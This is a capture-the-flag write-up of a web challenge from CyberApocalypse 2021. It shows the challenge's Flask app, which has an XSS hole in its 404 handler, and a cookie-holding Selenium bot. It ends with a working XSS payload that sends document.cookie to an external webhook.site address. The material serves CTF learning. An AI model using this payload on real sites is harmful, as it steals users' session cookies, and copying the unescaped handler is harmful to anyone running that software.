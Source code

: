 ```yaml
---
date: "2021-04-26T00:00:00Z"
title: CyberApocalypse Bug Report Writeup
tags : ["Web", "SSRF", "XSS"]
---
```




# Challenge



![](/img/apocalypse/BugReport.png)



## Solution



we are also given the source file [here](/assets/web_bug_report.zip)


which had the following


![](/img/apocalypse/contents.png)


and the challenge 


![](/img/apocalypse/challenge1.png)


the two python scripts as follows


```python
from flask import Flask, request, render_template
from urllib.parse import unquote
from bot import visit_report

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/api/submit", methods=["POST"])
def submit():
    try:
        url = request.json.get("url")
        
        assert(url.startswith('http://') or url.startswith('https://'))
        visit_report(url)

        return {"success": 1, "message": "Thank you for your valuable submition!"}
    except:
        return {"failure": 1, "message": "Something went wrong."}


@app.errorhandler(404)
def page_not_found(error): 
    return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404

app.run(host="0.0.0.0", port=1337)
```

brief look at it, nothing much it just forwards our reported url to the bot


but bot.py was interesting


```python
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.support.ui import WebDriverWait

def visit_report(url):

    options = Options()
    options.add_argument('headless')
    options.add_argument('no-sandbox')
    options.add_argument('disable-dev-shm-usage')
    options.add_argument('disable-infobars')
    options.add_argument('disable-background-networking')
    options.add_argument('disable-default-apps')
    options.add_argument('disable-extensions')
    options.add_argument('disable-gpu')
    options.add_argument('disable-sync')
    options.add_argument('disable-translate')
    options.add_argument('hide-scrollbars')
    options.add_argument('metrics-recording-only')
    options.add_argument('mute-audio')
    options.add_argument('no-first-run')
    options.add_argument('dns-prefetch-disable')
    options.add_argument('safebrowsing-disable-auto-update')
    options.add_argument('media-cache-size=1')
    options.add_argument('disk-cache-size=1')
    options.add_argument('user-agent=BugHTB/1.0')
    browser = webdriver.Chrome('chromedriver', options=options, service_args=['--verbose', '--log-path=/tmp/chromedriver.log'])

    browser.get('http://127.0.0.1:1337/')

    browser.add_cookie({
        'name': 'flag',
        'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
    })

    try:
        browser.get(url)
        WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
    except:
        pass
    finally:
        browser.quit()
```


```python
browser.get('http://127.0.0.1:1337/')

    browser.add_cookie({
        'name': 'flag',
        'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'`
```

 
 using this piece of code we can see that the bot visits the url sent and adds some cookies to it

 ...

 with that i decided to use ssrf and xss, 

 ssrf by using the ip 127.0.0.1:1337 and xss using [hookbin](https://hookbin.com) and an xss payload to steal the cookie


 my final payload was 


`https://127.0.0.1:1337/<script>document.write('<img src="https://webhook.site/e923b472-7002-4b02-902d-61f0eedebbe9/?c='%2bdocument.cookie%2b'" />');</script>`

as 

![](/img/apocalypse/bugreport.png)


and a few seconds later we got the flag leak on our hookbin instance


![](/img/apocalypse/flagforbug.png)



#### Flag : CHTB{th1s_1s_my_bug_r3p0rt}
